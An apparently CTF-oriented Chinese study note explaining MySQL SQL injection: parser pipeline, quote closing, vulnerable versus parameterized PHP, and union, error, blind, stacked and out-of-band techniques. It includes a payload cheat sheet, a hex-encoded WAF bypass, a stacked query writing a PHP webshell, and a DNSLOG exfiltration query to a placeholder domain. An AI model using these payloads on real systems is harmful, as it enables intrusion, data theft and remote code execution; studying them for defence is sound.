


## 一句话概括

SQL 注入的本质**不是「攻击数据库」，而是「欺骗解析器」**：应用把用户输入拼进了 SQL 字符串，攻击者用引号**提前闭合**，让自己的数据**越出引号边界、变成 SQL 语法**，于是被解析器当成代码执行。

## 原理

### 1. 一条 SQL 语句进入 MySQL 后要经过哪些环节

MySQL 拿到一条语句，并不是直接"去查数据"，而是先把它当成**一串普通字符**走一遍流水线：



| 环节 | 做什么 | 关键点 |
|---|---|---|
| 客户端 / 连接器 | 接收指令、把 SQL 字符串发给服务器 | 应用（Web 后端）在这里扮演"SQL 客户端" |
| **解析器 Parser** | **① 词法分析**：把字符串切成一个个有意义的模块（token）<br>**② 语法分析**：把 token 组合成一棵**解析树**，描述各成分的关系 | 语句有语法错误，就在这一阶段报错 |
| 预处理器 | ① 语义检查：解析树上的表、列、函数是否真的存在<br>② 权限验证：当前用户有没有权限 | |
| 优化器 / 执行器 | 生成执行计划，真正读写数据 | |
| 结果集 | 返回给应用层，再由应用渲染成页面 | |

这一整条链里，**漏洞的窗口在第 1 步和第 2 步之间**：字符串是应用"拼"出来的，而解析器只会照着字符本身去归类，它**根本不知道哪一段字符来自用户**。

### 2. 注入点的本质：破坏结构，手段是提前闭合

> 原文核心论断：**注入点的本质是破坏 SQL 语句的结构，而破坏的手段是「提前闭合」。**

把这句话拆开看：

- **本该环绕用户输入的包裹符号**有哪些？单引号 `'`、双引号 `"`、括号 `(` `)`。
- 正常拼接时，用户输入被**整个关在这对符号中间**，解析器把它识别成**字符串字面量** —— 也就是"数据"，是一堆无意义的字符，不具备任何语法地位。
- 攻击者如果在输入里**自带一个引号**，就相当于抢先把"开引号"给配对了。原本包裹用户输入的那对引号被**拆散**：
  - 攻击者写的那个引号，闭合了模板里的**开引号**；
  - 模板里原本的**闭引号**，则变成了新的**开引号**，把后面剩下的一点内容（比如 `' AND password = '`）当成一个字符串吞下去。
- 于是**两段引号之间**的内容暴露在引号之外。逃出包裹层的字符会被解析成**其它语法成分**（例如关键字、操作符），从而执行攻击者想要的功能。

一句话：**谁抢先闭合引号，谁就重新划定了"代码"与"数据"的边界。**



### 3. 为什么解析器会"上当"

因为**拼接发生在解析之前**。原始的 SQL 语句模板（如 `... WHERE username = '{输入}' ...`）在应用里只是一个字符串常量，攻击者的输入和它拼在一起之后，交给 MySQL 的是一条**全新的、被污染的字符串**。

解析器会**忠实地**对这条新字符串做词法和语法分析。只要攻击者注入的片段**在语法上是合法的**，解析器就会把它视为 SQL 语句的一部分，并生成一棵**包含恶意逻辑的解析树**。它没有"来源"这个概念 —— 所谓"用户数据"和"开发者写的 SQL"，在解析器眼里都只是字符。

### 4. 两个必看的例子

**例 1：注释掉后面的校验**

正常查询：

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123';
```

在用户名输入框里填 `admin' --`，拼接后：

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password123';
```

`--` 是 MySQL 的注释符号，解析器认为 `--` 之后的全部内容都是注释，密码校验部分被**整段忽略**。最终这棵解析树表达的逻辑变成 `SELECT * FROM users WHERE username = 'admin'` —— 攻击者成功绕过密码验证。

**例 2：让 WHERE 恒真**

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' -- ' AND password = 'anything';
```

因为 `'1'='1'` 永远为真，整个 `WHERE` 子句条件恒成立，查询会返回 `users` 表里的**所有记录**，攻击者可能借此拿到全部用户信息。

对比一下：例 1 是"让条件提前结束"，例 2 是"加一个恒真条件再让剩余部分变注释" —— **两种手法都建立在同一件事上：引号被提前闭合，后续字符获得了语法地位。**

### 5. 动态 SQL 是万恶之源

**动态 SQL（Dynamic SQL）** 指在运行时**通过字符串拼接**构建 SQL 语句，这是 SQL 注入漏洞最主要的成因。

危险写法（PHP）：

```php
$username = $_POST['username'];
$password = $_POST['password'];
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $sql);
```

`$username` 和 `$password` 从表单直接取来，**原封不动嵌进 SQL 字符串**。攻击者在 `$username` 里填 `admin' OR '1'='1' --` 就得到上面例 2 的那条语句。

正确写法（PDO 参数化查询）：

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

关键差别：**SQL 模板先被解析（此时 `?` 是语法的一部分），数据在这之后才绑定上去** —— 数据永远进不了词法分析环节，也就永远没机会变成"代码"。

### 6. 从原理出发看各种注入手法

| 手法 | 欺骗的是哪一环 | 要点 |
|---|---|---|
| **Union 注入** | 解析器（结果集合并） | 利用 `UNION` 把自造的结果集**合并**到原查询后面。前提：所有 `SELECT` 的**列数相同、对应列类型兼容** |
| **报错注入** | 执行阶段 | 利用函数参数不合法时**把参数内容当错误信息返回**的特性，把子查询结果"带"出来 |
| **布尔盲注** | 无回显时的回显位 | 页面只对"查到/没查到"给出两种不同表现，把条件塞进 `WHERE` 一位一位问 |
| **时间盲注** | 无回显也无差异时 | 连文案都没区别，改用 `SLEEP()` 制造**响应时间差**当信号位 |
| **堆叠注入** | 语句分隔符 `;` | 用 `;` 结束当前语句并执行后续 SQL，可直接增删改。**依赖驱动支持** |
| **带外注入（OOB）** | 出网通道 | 页面什么信号都没有时，让数据库**主动向外发请求**（如 DNS 查询）把数据带出去 |
| **写入 WebShell** | 文件系统 | 用 `INTO OUTFILE` / `INTO DUMPFILE` 把内容写进 Web 目录 |
| **二次注入** | 存储环节 | 恶意数据先被"安全地"存进库，等**下次被取出拼进新语句**时才发作，原理复杂，属进阶内容 |

> 原文在这里吐槽：很烦"Union、Boolean、Error、Time、Stacked 等"这种用"等"字装神秘的表述，所以把带外注入、写 WebShell、二次注入都补上了 —— 上述表格基本覆盖 CTF 可能考察的全部 SQLi 手法。

#### 6.1 Union 注入：利用解析器合并结果集

`UNION` 用于把两个或多个 `SELECT` 的结果集**合并成一个**。使用前提是 **所有 `SELECT` 必须列数相同、对应列的数据类型兼容**。

步骤：

1. 先用 `ORDER BY 1`、`ORDER BY 2`…… 逐个尝试，直到页面报错，从而**确定原查询的列数**；
2. 再构造 `UNION SELECT`，把自己的查询结果**附加**到原查询之后。

```sql
' UNION SELECT 1, database(), user() --
```

假设原查询是 `SELECT id, title, content FROM news WHERE id = $id`（三列），注入后变成：

```sql
SELECT id, title, content FROM news WHERE id = '' UNION SELECT 1, database(), user() -- ';
```

解析器把它解析成两个 `SELECT` 的合并。第一个查询返回空集，第二个返回当前数据库名和当前用户；因为列数和类型匹配，两个结果被合并后**显示在页面上**，敏感信息就此泄露。

#### 6.2 报错注入：利用执行阶段的错误信息

MySQL 在执行某些函数时，如果参数不合法，会**把参数内容作为错误信息返回**。攻击者据此构造包含子查询的函数调用，把子查询结果"带"进报错里。

```sql
-- 爆库名
1'or(extractvalue(1,concat(0x7e,(database()))))%23
-- 爆表名
1'or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())))))%23
-- 爆字段名
1'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like("H4rDsq1")))))%23
-- 爆字段值
1'or(extractvalue(1,concat(0x7e,(select(group_concat(password))from(geek.H4rDsq1)))))%23
```

- `0x7e` 是 `~`，放在最前面是为了让错误信息里**带上一个醒目的分隔符**，方便一眼定位到"带出来"的内容。
- `%23` 是 `#` 的 URL 编码，即 MySQL 的另一种单行注释符。

#### 6.3 盲注：用布尔或时间差推断信息

页面**既没有回显位、也没有报错信息**时，只能盲注。核心思想：**构造一系列"是/否"问题向数据库提问，再根据页面的不同响应推断答案。**

布尔盲注（以猜库名第一个字符为例）：

1. 构造 payload：`' AND ascii(substring(database(), 1, 1)) > 100 --`
2. 页面正常返回 → 说明第一个字符的 ASCII 值**大于** 100；
3. 继续：`' AND ascii(substring(database(), 1, 1)) > 110 --`
4. 页面异常 → 说明 ASCII 值落在 100 与 110 之间；
5. 用**二分法**不断逼近，最终确定第一个字符是 `s`（ASCII 115）。

时间盲注（连布尔差异都没有时）：

1. 构造 payload：`' AND IF(ascii(substring(database(), 1, 1)) > 100, SLEEP(5), 0) --`
2. 页面**延迟 5 秒**才返回 → 条件为真；
3. 页面立即返回 → 条件为假；
4. 同样用二分法，靠响应时间逐字符判断 ASCII 值。

#### 6.4 堆叠注入：利用分号堆叠查询

**前提**：MySQL 只有在 `mysqli` / `mysql-cli` / `PDO` 打开了 `CLIENT_MULTI_STATEMENTS` 时才允许一次执行多条语句，而该属性在 **MySQLi（PHP 扩展）中默认关闭**。

手法是用分号 `;` 结束当前语句、再执行后续 SQL，可以直接执行增删改或系统命令（**依赖数据库与驱动支持**，例如 MSSQL 里较常见）。

```sql
?id=1'; SELECT * FROM users INTO OUTFILE '/var/www/html/shell.php';--
```

**一种极罕见的、用 Stacked 注入绕过 WAF 限制的方法**（以下为 DataGrip 客户端中的演示，`select group_concat(table_name) from information_schema.tables where table_schema=database()` 是目标语句）：

```sql
seT @a = 0x73656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829; pRepare flag from @a;EXECUTE flag;#--+
```

拆解：

- `0x73656c656374...` 是一段**十六进制字符串**，解码后正好是那句目标查询：前几个字节 `73 65 6c 65 63 74` 就是 `select`，末尾 `64 61 74 61 62 61 73 65 28 29` 就是 `database()`。也就是说 **SQL 语句本身被编码成了十六进制字面量**，长度受限的字符类过滤规则很难匹配到它。
- `prepare flag from @a` 把这段字符串**当成一条 SQL 语句来准备**，`EXECUTE flag` 再执行它 —— 相当于把"写死的 SQL"变成了"运行时才成形的 SQL"，静态特征因此消失。
- 关键字写成 `seT`、`pRepare` 这种**大小写混写**（SQL 关键字本身大小写不敏感），用来躲开对大小写敏感的关键字黑名单。

#### 6.5 带外注入：以 DNSLOG 为例

当页面既无回显、又无报错、布尔与时间也被堵死时，可以让数据库**主动向外发请求**，把数据编码进域名带出去。MySQL 可以利用 Windows 下 `LOAD_FILE()` 解析 UNC 路径（`\\主机名\共享名`）时**必须先做名字解析**这一点，强制产生一次 DNS 查询。

```text
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc')    |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+------------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'))      |
+------------------------------------------------------------------------+
| NULL                                                                   |
+------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

第二条语句把 `database()` 的结果拼进域名前缀 —— 只要在 `xxx.ceye.io` 的 DNS 日志里看到 `security.xxx.ceye.io` 这样的解析记录，就等于**读出了当前库名**。（`xxx.ceye.io` 是笔记里占位用的 DNS 日志平台地址，实际使用时替换成自己的。）

## 利用条件

一次 SQL 注入要成立，需要同时满足：

1. **用户输入被拼接进 SQL**：不管是前端表单、URL 参数还是 Cookie 值，只要外部数据被直接拼到 SQL 里就有风险；
2. **拼接处存在可闭合的包裹符号**：单引号 / 双引号 / 括号，或者该处本身就没有引号（数字型）；
3. **拼接后的语句语法仍然合法**（或者你能根据报错猜出结构）：否则解析器直接报错，注入片段不会进入解析树；
4. **有可观测的反馈通道**：回显、报错、布尔差异、响应时间、带外请求 —— 至少要有一条，否则信息带不出来；
5. **有对应能力**：读文件需要 `FILE` 权限且 `secure_file_priv` 放行，写文件需要目录可写，堆叠需要驱动打开多语句开关。

## Payload 速查

| 目的 | Payload |
|---|---|
| 注释掉后续内容（MySQL） | `admin' -- ` 、`admin'#` |
| 恒真绕过登录 | `admin' OR '1'='1' -- ` |
| 判断列数 | `1' ORDER BY 1 -- ` 递增到报错 |
| 联合查询取数据 | `' UNION SELECT 1,database(),user() -- ` |
| 报错带数据 | `1'or(extractvalue(1,concat(0x7e,(database()))))%23` |
| 布尔盲注（二分） | `' AND ascii(substring(database(),1,1))>100 -- ` |
| 时间盲注 | `' AND IF(ascii(substring(database(),1,1))>100,SLEEP(5),0) -- ` |
| 堆叠写 shell | `1'; SELECT '<?php system($_GET[c]);?>' INTO OUTFILE '/var/www/html/shell.php';--` |
| 十六进制 + prepare 绕 WAF | `seT @a=0x<语句的十六进制>; pRepare f from @a; EXECUTE f;#` |
| 带外 DNSLOG（Windows） | `select load_file(concat('\\\\',(select database()),'.your.dnslog\\a'));` |

## 完整示例：一条注入语句的完整推演

以登录绕过为例，假设后端代码为：

```php
$username = $_POST['username'];
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

第一步，正常输入 `admin` / `123`，实际执行：

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '123';
```

第二步，输入 `admin'-- ` ，拼接结果：

```sql
SELECT * FROM users WHERE username = 'admin'-- ' AND password = '123';
```

第三步，`-- ` 之后全部变注释，逻辑等价于：

```sql
SELECT * FROM users WHERE username = 'admin';
```

第四步，只要 `admin` 存在，查询就命中，密码比对被跳过 → **登录成功**。

把这一过程映射回解析流水线，可以看到每一步都发生在"字符串拼接"和"解析器归类"之间：

```text
应用拼接   ->  "SELECT * FROM users WHERE username = 'admin'-- ' AND password = '123'"
词法分析   ->  [SELECT][*][FROM][users][WHERE][username][=]['admin'][-- ... 注释 ...]
语法分析   ->  解析树：WHERE username = 'admin'      <- 密码部分整体消失
预处理器   ->  检查 users 表、username 列是否存在     <- 全部合法，通过
执行器     ->  返回 admin 那一条记录
```

## 踩坑与备注

- **`--` 在 MySQL 里要带空白**：MySQL 的单行注释是 `-- `（两条短横线**加一个空白字符**，或换行）才算注释；写 `--` 后面紧跟内容可能不生效。另一个更保险的单行注释是 `#`（URL 里要写成 `%23`）。这一点原文没有展开，是实际做题时最常踩的坑之一。
- **堆叠注入的门槛**：原文强调——该手法在 MySQLi（PHP 扩展）中**默认关闭**多语句，所以能不能打要先看驱动。MSSQL 里更常见。上面那串十六进制 + `prepare` 的绕 WAF 演示，原文标注是在 **DataGrip** 客户端里做的（客户端默认允许多语句），不代表通过 PHP 应用一定能打通。
- **带外那两条回显的时间差**：原文记录第一条耗时 `22.05 sec`、第二条耗时 `0.00 sec`，但没有给出解释。合理解释是操作系统/解析器把第一次失败的名字解析结果**缓存**了下来，导致第二次几乎不会真的再去查一次 DNS —— 但原文没写，此处**存疑**，仅供参考。
- **原文对"等"字的吐槽**保留了：作者不认可"Union、Boolean、Error、Time、Stacked 等"这种表述，因此明确补上了**带外注入、写入 WebShell、二次注入**三种；二次注入因原理复杂被作者列为拓展内容。
- **原文两处登录示例写的是 `SELECT  FROM users`（缺 `*`）**，对照同文其它示例（`SELECT * FROM users`）以及语义，此处按笔误处理，统一补回 `*`。
- **带外示例的域名**：原文用 `xxx.ceye.io`，属于笔记里的占位写法，真实使用时替换为自己的 DNS 日志域名。

> 与后续篇目的关系：本篇讲"为什么能注入"（原理与边界），`SQL基础语法` / `MySQL基础` 补语言与产品背景，`MySQL核心原理` 从服务端内部结构再讲一遍这条流水线，`SQL注入核心概念速记` 收录与注入相关的若干零散但关键的细节，`与SQL注入相似的其他漏洞` 把"数据被当成代码"这一共性推广到其它解释器。
